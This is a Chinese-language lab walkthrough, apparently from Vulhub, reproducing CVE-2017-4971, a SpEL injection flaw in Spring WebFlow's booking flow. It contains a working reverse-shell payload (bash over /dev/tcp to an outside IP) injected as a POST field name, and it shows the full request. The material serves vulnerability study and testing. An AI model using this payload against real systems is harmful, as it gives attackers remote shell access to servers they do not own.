





# Spring WebFlow 远程代码执行漏洞 CVE-2017-4971

## 漏洞描述

Spring WebFlow 是一个适用于开发基于流程的应用程序的框架（如购物逻辑），可以将流程的定义和实现流程行为的类和视图分离开来。在其 2.4.x 版本中，如果我们控制了数据绑定时的 field，将导致一个 SpEL 表达式注入漏洞，最终造成任意命令执行。

参考链接：

- https://threathunter.org/topic/593d562353ab369c55425a90
- https://pivotal.io/security/cve-2017-4971

## 环境搭建

Vulhub 运行测试环境：

```
docker-compose up -d
```

等待环境启动后，访问 `http://your-ip:8080`，将看到一个酒店预订的页面，这是 spring-webflow 官方给的简单示例。

## 漏洞复现

首先访问 `http://your-ip:8080/login`，用页面左边给出的任意一个账号/密码登录系统：



然后访问 id 为 1 的酒店 `http://your-ip:8080/hotels/1`，点击预订按钮“Book Hotel”，填写相关信息后点击“Process”（从这一步，其实 WebFlow 就正式开始了）：



再点击确认“Confirm”：



此时抓包，抓到一个 POST 数据包，我们向其中添加一个字段（也就是反弹 shell 的 POC）：

```
_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.174.128/9999+0>%261")).start()=vulhub
```

最终的 POST 数据包如下：

```
POST /hotels/booking?execution=e3s2 HTTP/1.1
Host: your-vps-ip:8080
Content-Length: 172
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://your-vps-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-vps-ip:8080/hotels/booking?execution=e3s2
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: lang=zh-CN; COOKIE_SUPPORT=true; GUEST_LANGUAGE_ID=en_US; JSESSIONID=E489BFF839A3C8D346F45D1B1A8BF03F
Connection: close

_eventId_confirm=&_csrf=5509ae82-f763-41a3-b347-44f09e16fd2e&_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.174.128/9999+0>%261")).start()=vulhub
```



成功执行，获得 shell：


